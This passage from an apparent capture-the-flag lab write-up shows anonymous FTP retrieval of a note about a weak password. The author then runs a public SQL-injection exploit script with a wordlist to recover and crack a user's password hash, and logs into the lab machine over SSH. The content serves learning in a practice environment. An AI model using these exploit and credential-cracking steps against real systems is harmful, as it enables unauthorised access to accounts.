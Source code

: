 ```
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get pub/ForMitch.txt
local: pub/ForMitch.txt remote: pub/ForMitch.txt
local: pub/ForMitch.txt: No such file or directory
ftp> cd pub
250 Directory successfully changed.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (433.4475 kB/s)
ftp> 
```
I'm not particularly farmiliar with the command line FTP client but I did manage to download a file ForMitch.txt. Reading the file confirms that mitch has a weak password.
```
$ cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
                                   
```
## Resolving python issues
At this point I returned to the python script and fixed the issues with the unicode strings. Running the script again with the wordlist and the -c flag set.

```
$ python 46635.py -u http://$IPADDR/simple --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: [REDACTED]
```

## Logging in using ssh
So now with a user anme and password I was able to login to the machine using ssh.

```
$ ssh mitch@10.10.199.87 -p 2222
The authenticity of host '[10.10.199.87]:2222 ([10.10.199.87]:2222)' can't be established.
ECDSA key fingerprint is SHA256:Fce5J4GBLgx1+iaSMBjO+NFKOjZvL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.199.87]:2222' (ECDSA) to the list of known hosts.
mitch@10.10.199.87's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
```